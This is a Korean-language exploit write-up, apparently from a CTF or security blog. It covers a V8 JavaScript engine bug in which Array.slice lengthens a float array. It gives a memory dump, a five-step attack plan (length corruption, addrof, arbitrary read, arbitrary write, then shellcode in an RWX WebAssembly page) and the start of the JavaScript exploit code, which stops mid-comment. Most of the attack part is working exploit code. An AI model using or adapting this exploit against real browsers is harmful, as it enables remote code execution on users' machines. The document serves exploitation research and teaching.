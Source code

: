 ```
0x2934080864ac:	0x082438fd	0x080426dd	0x0808649d	0x00000006
0x2934080864bc:	0x0824394d	0x080426dd	0x080864f5	0x00000006
0x2934080864cc:	0x082422cd	0x080426dd	0x080426dd	0x08042301
```
첫 번재 인덱스인 `0x9999999a	0x3ff19999`데이터 바로 뒤에 `map propertes`쌍이 있다. 이제 원하는 데이터를 write할 수 있다.

## Exploit
공격 순서는 다음과 같다.
1. float 배열의 length를 크게 변조
2. addrof 구현  
   본 익스에서는 `float_arr[4]`로 `addrof_arr[0]`에 접근
3. AR 구현  
   본 익스에서는 `float_arr[17]`로 `arb_read_arr elements`에 접근
4. AW 구현
   본 익스에서는 `float_arr[20]`로 
5. rwx 영역에 쉘코드 넣고 실행


exploit 코드는 다음과 같다.
``` javascript
// ftoi, itof에서 형변환에 사용되는 변수들
var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u32_buf = new Uint32Array(buf);

function ftoi(val) {
    f64_buf[0] = val;
    return BigInt(u32_buf[0]) + (BigInt(u32_buf[1]) << 32n);
}

function itof(val) {
    u32_buf[0] = Number(val & 0xffffffffn);
    u32_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

function hex(val) {
    return "0x" + val.toString(16);
}

// shellcode를 삽입할 web asm 페이지 생성
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

console.log("[+] WebAssembly RWX page setup!");

var float_arr = [1.1]; // index로 다양한 메모리 공간에 접근할 float 배열
float_arr = float_arr.slice(0); // 취약점 트리거. length가 2 늘어남.
var addrof_arr = [{}, {}]; // addrof로 주소구할 때 사용할 변수
var arb_read_arr = [1.1]; // AR에 사용할 변수

// AW에 사용할 버퍼
var buf = new ArrayBuffer(0x100);
var dataview = new DataView(buf);

console.log("[+] Corrupting float_arr's length to 2048");

// float으로 읽다보니 8byte씩 읽는데, 최신 v8에서는 데이터가 4byte로 압축되기 때문에
```